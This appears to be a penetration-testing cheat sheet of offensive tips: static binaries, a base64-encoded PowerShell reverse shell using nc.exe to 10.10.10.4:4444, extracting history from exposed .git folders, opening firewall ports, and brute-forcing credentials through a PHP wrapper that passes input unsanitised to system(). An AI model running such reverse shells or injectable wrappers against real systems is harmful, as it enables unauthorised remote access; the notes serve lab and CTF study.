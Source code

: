

# Tips

## Static binaries

Tools like `socat`, `nmap`, ... are rarely installed on machines, however you can upload a static binary and use it.

**List :** ag/the_silver_searcher, binutils, file, ht, nano, nmap, p0fv3, pv(PipeViewer), python, socat, strace, tcpdump, yasm.

**Link :** [github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries/tree/master/binaries)

## Windows UTF16 Little Endian

```bash
$ echo 'c:\windows\temp\nc.exe 10.10.10.4 4444 -e powershell' | iconv -t utf-16le | base64 -w 0
YwA6AFwAdwBpAG4AZAB...

C:> powershell -e YwA6AFwAdwBpAG4AZAB...
```

## Extract files from .git

Using git :

```bash
$ ls -al web
total 12
drwxr-xr-x  3 xanhacks xanhacks 4096 Feb  7 14:47 .
drwxr-xr-x 12 xanhacks xanhacks 4096 Feb  7 14:47 ..
drwxr-xr-x  6 xanhacks xanhacks 4096 Feb  7 14:45 .git
$ git --work-tree=$(pwd) checkout HEAD^1 # checkout to a random commit
HEAD is now at 82dfc97 Initial Commit for the back-end
$ git --work-tree=$(pwd) checkout master # come back to the last commit
Previous HEAD position was 82dfc97 Initial Commit for the back-end
Switched to branch 'master
$ ls
css  favicon.png  fonts  img  index.html  js  resources
```

Using [GitTools](https://github.com/internetwache/GitTools) :

```bash
$ ls -al web
total 12
drwxr-xr-x  3 xanhacks xanhacks 4096 Feb  7 14:47 .
drwxr-xr-x 12 xanhacks xanhacks 4096 Feb  7 14:47 ..
drwxr-xr-x  6 xanhacks xanhacks 4096 Feb  7 14:45 .git
$ git clone https://github.com/internetwache/GitTools
[...]
$ bash GitTools/Extractor/extractor.sh web/ output/
[...]
[*] Destination folder does not exist
[*] Creating...
[+] Found commit: 70dde80cc19ec76704567996738894828f4ee895
[...]
$ ls output
0-70dde80cc19ec76704567996738894828f4ee895
1-345ac8b236064b431fa43f53d91c98c4834ef8f3
2-82dfc97bec0d7582d485d9031c09abcb5c6b18f2
$ ls output/0-70dde80cc19ec76704567996738894828f4ee895
commit-meta.txt  css  favicon.png  fonts  img  index.html  js
```

## Add firewall rule

### RedHat / CentOS

```bash
$ firewall-cmd --zone=public --add-port PORT/tcp
$ firewall-cmd --zone=public --add-port 4444/tcp
```

### Windows

```powershell
C:\> netsh advfirewall firewall add rule name="portfwd" dir=in action=allow protocol=tcp localport=20000
Ok.
```

## Bruteforce whatever you want

```php
$ cat index.php
<?php

$pass = $_REQUEST['pass'];
system("memccat --username toto --password $pass --servers 10.10.10.190");

?>
$ php -S localhost:8000
[Thu Feb 10 18:29:12 2022] PHP 8.1.2 Development Server (http://localhost:8000) started

$ ffuf -u 'http://localhost:8000?pass=FUZZ' -w /opt/rockyou.txt -fs 40
```